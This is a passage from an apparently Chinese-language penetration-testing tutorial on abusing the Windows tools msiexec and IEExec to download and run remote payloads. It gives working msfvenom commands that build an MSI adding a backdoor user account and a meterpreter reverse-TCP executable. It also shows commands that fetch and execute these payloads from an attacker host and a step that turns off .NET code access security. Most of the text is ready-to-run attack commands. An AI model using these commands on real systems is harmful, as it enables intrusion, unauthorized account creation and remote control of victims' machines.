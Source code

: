

**9、msiexec**

msiexec 支持远程下载功能，将msi文件上传到服务器，通过如下命令远程执行：

~~~
#生成msi包
msfvenom -p windows/exec CMD='net user test abc123! /add' -f msi > evil.msi
#远程执行
msiexec /q /i http://192.168.28.128/evil.msi
~~~

成功添加了一个test用户：

![](./image/20200413-9.png)



**10、IEExec**

IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。

生成Payload：

~~~
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe
~~~

使用管理员身份打开cmd，分别运行下面两条命令。

~~~
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.28.131/evil.exe
~~~

![](./image/20200413-10.png)
